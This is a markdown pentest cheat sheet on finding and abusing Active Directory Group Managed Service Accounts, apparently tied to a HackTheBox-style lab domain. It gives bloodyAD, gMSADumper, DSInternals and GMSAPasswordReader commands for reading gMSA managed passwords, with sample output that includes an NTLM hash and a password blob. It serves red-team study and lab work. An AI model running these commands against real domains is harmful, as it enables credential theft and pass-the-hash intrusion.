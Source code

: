 # Group Managed Service Accounts


## Detection
 * Bloodhound Data
 ```bash
 cat <Users.json> | jq '.data[].Properties | select(.samaccountname) | "\(.pwdlastset):\(.samaccountname)"' -r|sort -n
 ```
 Example:
 ```bash
 loot cat 20241130134537_users.json | jq '.data[].Properties | select(.samaccountname) | "\(.pwdlastset):\(.samaccountname)"' -r|sort -n
 1717583255:krbtgt
 1717584108:gMSA01$
 1717594268:G.Viola
 1717594268:L.Bianchi
 1717594268:M.Rossi
 1717594268:R.Verdi
 1717621693:C.Neri
 1717681527:svc_ark
 1717681527:svc_ldap
 1717757654:C.Neri_adm
 1717846494:Administrator
 1730896036:P.Rosa
 1731507413:Guest
 1732621230:L.Bianchi_adm
 1733002326:svc_sql
 ```
## Exploitation from Linux
### BloodyAD
 * Getting the hash:
 ```bash
 bloodyAD --host dc01.vintage.htb -u 'fs01$' -p 'fs01' -d vintage.htb -k get object 'gmsa01$' --attr msDS-ManagedPassword
 ```
 * Example
 ```bash
 bloodyAD --host dc01.vintage.htb -u 'fs01$' -p 'fs01' -d vintage.htb -k get object 'gmsa01$' --attr msDS-ManagedPassword 
 distinguishedName: CN=gMSA01,CN=Managed Service Accounts,DC=vintage,DC=htb
 msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:b3a15bbdfb1c53238d4b50ea2c4d1178
 msDS-ManagedPassword.B64ENCODED: cAPhluwn4ijHTUTo7liDUp19VWhIi9/YDwdTpCWVnKNzxHWm2Hl39sN8YUq3hoDfBcLp6S6QcJOnXZ426tWrk0ztluGpZlr3eWU9i6Uwgkaxkvb1ebvy6afUR+mRvtftwY1Vnr5IBKQyLT6ne3BEfEXR5P5iBy2z8brRd3lBHsDrKHNsM+Yd/OOlHS/e1gMiDkEKqZ4dyEakGx5TYviQxGH52ltp1KqT+Ls862fRRlEzwN03oCzkLYg24jvJW/2eK0aXceMgol7J4sFBY0/zAPwEJUg1PZsaqV43xWUrVl79xfcSbyeYKL0e8bKhdxNzdxPlsBcLbFmrdRdlKvE3WQ==
```
### [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper)
> gMSADumper.py requires LDAPS, which normally won't be available through linux
 ```bash
 # With Username and password
 python3 gMSADumper.py -u 'user' -p 'password' -d 'domain.local'
 
 # With Kerberos
 python3 gMSADumper.py -k -d vintage.htb -l dc01.vintage.htb
 ```
## Exploitation from Windows
### AD and DSInternals
 ```ps1
 # Save the blob to a variable
 $gmsa = Get-ADServiceAccount -Identity 'Target_Account' -Properties 'msDS-ManagedPassword'
 $mp = $gmsa.'msDS-ManagedPassword'

 # Decode the data structure using the DSInternals module
 ConvertFrom-ADManagedPasswordBlob $mp
 # Build a NT-Hash for PTH
 (ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash
 # Alterantive: build a Credential-Object with the Plain Password
 $cred = new-object system.management.automation.PSCredential "Domain\Target_Account",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```
### [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader)
 ```ps1
 .\GMSAPasswordReader.exe --AccountName 'Target_Account'
 ```

